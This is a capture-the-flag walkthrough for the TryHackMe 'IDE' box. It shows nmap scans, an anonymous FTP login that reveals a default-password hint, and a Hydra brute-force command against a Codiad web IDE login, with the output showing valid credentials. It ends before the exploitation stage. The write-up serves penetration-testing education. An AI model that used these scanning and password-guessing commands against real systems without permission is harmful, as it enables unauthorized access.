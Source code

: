# IDE  
![ide logo](/imgs/ide_room_logo.png)

IDE, an easy box to polish your enumeration skills!

## Summary
  * Start Machine
  * Find open ports using nmap
  * Access ports discovered
  * Where possible determine version of server software
  * Seek out publicly released known exploits
  * Once local access is achieved, escalate privileges to find the flags

### 1. Nmap enumeration

I used an [**Aggressive**](https://nmap.org/book/vscan-examples.html) scan (the `-A` option), while leaving most settings at their default values hoping to see slightly more verbose version detection. The `-T4` option can be used on the TryHackMe platform since the machines we attack are on a virtual private network using [private addressing space](https://en.wikipedia.org/wiki/Private_network#Private_IPv4_addresses). Tantamount to being on a LAN. In the field I would most likely reduce that to `-T3` or `-T2` to reduce the chance of being detected by an IDS or worse overwhelming a production server, despoiling my probe results.

```console
# Nmap 7.92 scan initiated Sat Nov  6 22:10:06 2021 as: nmap -A -T4 -oA scans/nmap_init ide.thm
Nmap scan report for ide.thm (10.10.64.67)
Host is up (0.23s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.13.21.92
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
|_  256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)

Network Distance: 4 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8888/tcp)
HOP RTT       ADDRESS
1   106.56 ms 10.13.0.1
2   ... 3
4   241.81 ms ide.thm (10.10.64.67)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Nov  6 22:10:48 2021 -- 1 IP address (1 host up) scanned in 42.41 seconds
```

I see some standard services:  
* FTP being served by vsFTPd 3.0.3 :: *always good to see version strings when we probe*
* SSH being served up by OpenSSH 7.6p1 :: *Not the most up to date or secure, but not grossly insecure*
* HTTP served up by Apache2 on Ubuntu :: *This turns out to be just the first httpd daemon running on this box*

The first two, FTP and SSH, are relatively stable and secure servers. Further probing by loading up the Apache homepage in a browser gives the appearance this is a distro specific  standard install. Hinted at by `http-title: Apache2 Ubuntu Default Page: It works`

![Default Page](/imgs/screenshot_default_page.png)

In the rush to hack over a web port I neglected a feature of the ftp server `Anonymous FTP login allowed (FTP code 230)` that Nmap revealed. Let's fire up an ftp client and see what's publicly accessible. You never know what secrets got left out in the open.

#### Security through obscurity is **NO SECURITY** at all

A quick bout of Command Line Commando `ftp ide.thm` using credentials of username--> anonymous and leaving password blank drops us in the ftp directory. There we find a directory named `...`
```sh
cd ...
ftp> ls -lA
-rw-r--r--  1 0   0   151 Jun 18 06:11  -
```  
Now that's curious. Inside that oddly named directory is a file named `-` *("dash")*  
Let's grab it and see what's inside  
```txt
Hey john,
I have reset the password as you have asked. Please use the default password to login.
Also, please take care of the image file ;)
- drac.
```  
So, we'll keep this in our back pocket for now. A password got reset and instructions to use a **default password** to login somewhere. We also have two prospective users `john` and `drac` to tuck away inside a `user.txt`.

The topic of this room is "Enumeration" so let's look at the ports above the so called **privileged ports** aka higher than 1024  
```nmap
# Nmap 7.92 scan initiated Sat Nov  6 22:22:23 2021 as: nmap -sV -T4 -p 1024- -oN scans/nmap_above1024 ide.thm
Nmap scan report for ide.thm (10.10.64.67)
Host is up (0.24s latency).
Not shown: 64511 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
62337/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Nov  6 22:31:06 2021 -- 1 IP address (1 host up) scanned in 523.21 seconds
```  
Loading this new url in our browser redirects us to a login page for [Codiad Web IDE](http://codiad.com). From a link to the [Github Repo](https://github.com/Codiad/Codiad) we see it is a web based IDE for code development that has made note it is no longer maintained.  Last commit was *Mar 21, 2020*.  
Capturing a login can be done with a proxy or easier still, using the dev tools in either Firefox or Chrome. In Firefox, what I prefer to use, open up the Network tab in DevTools before logging in so that the exchange is captured in the tool. Log in with credentials we can spot in the captured **POST** request that we'll save to a file for reference in the next step.  Click on the **POST** request in the Network tab, Click on Copy--->Copy Request Headers, paste that into a file. Then Copy-->Copy Post Data and paste that below the headers.  
```text
POST http://ide.thm:62337/components/user/controller.php?action=authenticate HTTP/1.1
Host: ide.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5 --compressed
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Origin: http://ide.thm:62337
Connection: keep-alive
Referer: http://ide.thm:62337/
Cookie: f9c7294bc8f6035df784b56b800b122c=m9k8u4546g47no5uerg3kvjtr3

username=testuser&password=testpass&theme=default&language=en
```  
btw that's what our request looked like on the wire, so to speak, when it got sent over to Apache2.  We know the **Response** returned **JSON** from the headers returned including `Content-Type: application/json`. We now have all we need to attempt to brute-force a password on the Codiad Server on Port 62337

### 2. Hydra Password Enumeration

[Hydra](https://github.com/vanhauser-thc/thc-hydra) is straight forward brute-forcing tool. Tell it the user or users and the password or list of passwords. Beyond that just give it an **IP** and protocol **method** and we're off to the races. For this Codiad server I will include a port number since **http** is usually served on port **80**.  
Command looks something like this  
`hydra -L <PATH TO USERLIST> -P <PATH TO PASSWORDS LIST> protocol-method://<$IP>$URL:<POST DATA>:<FAIL TEXT>`  
Looking for a quick easy win we'll use `probable-v2-top207.txt` from [Seclist](https://github.com/danielmiessler/SecLists) add an `-s $PORT#` since Apache2 is running on a non-standard port. Cram our POST DATA and Error Message in and off we go...
```console
hydra -L user.txt -P /usr/share/seclists/Passwords/probable-v2-top207.txt -s 62337 "http-post-form://ide.thm/components/user/controller.php?action=authenticate:username=^USER^&password=^PASS^&theme=default&language=en:Incorrect Username"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-11-08 14:52:29
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1035 login tries (l:5/p:207), ~65 tries per task
[DATA] attacking http-post-form://10.10.155.168:62337/components/user/controller.php?action=authenticate:username=^USER^&password=^PASS^&theme=default&language=en:Incorrect Username
[62337][http-post-form] host: 10.10.155.168   login: john   password: xxxxxxxx
```  
A few seconds later and we have valid credentials. User *`drac`* did reset the user *`john`* to a **well-known** default password.

### 3. Exploit and get Local Shell Access  
{To be continued...}
